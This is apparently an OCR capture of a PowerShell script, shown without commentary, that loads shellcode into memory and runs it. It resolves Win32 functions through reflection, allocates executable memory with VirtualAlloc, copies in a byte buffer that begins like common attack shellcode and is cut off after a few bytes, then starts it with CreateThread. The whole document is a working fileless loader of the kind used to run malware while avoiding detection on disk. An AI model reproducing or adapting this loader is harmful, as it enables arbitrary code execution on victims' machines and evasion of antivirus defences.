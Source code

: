 function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
 Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
 Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
@($moduleName)), $functionName))
}
function getDelegateType {
 Param (
 [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
 [Parameter(Position = 1)] [Type] $delType = [Void]
 )
 $type = [AppDomain]::CurrentDomain.
 DefineDynamicAssembly((New-Object
System.Reflection.AssemblyName('ReflectedDelegate')),
 [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
 DefineDynamicModule('InMemoryModule', $false).
 DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
 [System.MulticastDelegate])
 $type.
 DefineConstructor('RTSpecialName, HideBySig, Public',
[System.Reflection.CallingConventions]::Standard, $func).
 SetImplementationFlags('Runtime, Managed')
 $type.
 DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
 SetImplementationFlags('Runtime, Managed')
 return $type.CreateType()
}

$lpMem =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc
kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])
([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc
kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],
[UInt32], [IntPtr])
([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc
kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32])
([Int]))).Invoke($hThread, 0xFFFFFFFF)